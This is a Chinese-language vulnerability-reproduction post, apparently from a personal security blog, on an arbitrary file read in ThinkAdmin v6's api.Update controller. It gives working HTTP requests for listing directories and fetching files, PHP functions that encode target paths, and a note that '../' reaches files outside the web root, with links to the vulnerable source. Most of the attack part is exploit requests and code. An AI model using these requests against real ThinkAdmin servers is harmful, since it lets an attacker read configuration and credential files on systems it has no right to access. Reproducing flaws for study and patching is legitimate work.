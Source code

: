 ```yaml
---
categories:
    - 漏洞复现
tags:
    - 漏洞复现
    - Thinkadmin
---
```

## Thinkadmin 任意文件读取复现

```
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Connection: close
Referer: http://xxx/admin.html?s=admin/api.Update/node
Cookie: PHPSESSID=bcfcc345c9a2ffbd53edad34794d0c71
Upgrade-Insecure-Requests: 1

rules=["./"]
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/001.png)

主要读取文件url:是经过函数加密的

```
GET /admin.html?s=admin/api.Update/get/encode/1b34392q302x2r1b2x322s2t3c1a342w34 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://xx/admin.html?s=admin/api.Update/node
Cookie: PHPSESSID=bcfcc345c9a2ffbd53edad34794d0c71
Upgrade-Insecure-Requests: 1


```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/002.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/003.png)

文件名加解密函数如下，可以将想读取的文件经过encode函数加密后进行读取，读取内容是base64加密的：  
需要注意读取文件要加上`/public/`,同时可以通过`../`跨目录读取

```
<?php

function encode($content)
    {
		$length = strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content));
        $chars ='';
        for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
        return $chars;
    };
echo encode("/public/index.php")."<br>";

function decode($content)
    {
        $chars = '';
        foreach (str_split($content, 2) as $char) {
            $chars .= chr(intval(base_convert($char, 36, 10)));
        }
        return iconv('GBK//TRANSLIT', 'UTF-8', $chars);
    };
echo decode("1b34392q302x2r1b2x322s2t3c1a342w34");
?>
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/004.png)


github 源文件地址：

```
https://github.com/zoujingli/ThinkAdmin/blob/v6/app/admin/controller/api/Update.php
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/005.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/006.png)

```
https://github.com/zoujingli/ThinkAdmin/blob/05711afcdcd0c87fcbf65a614281941a457b0863/vendor/zoujingli/think-library/src/common.php#L163
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/007.png)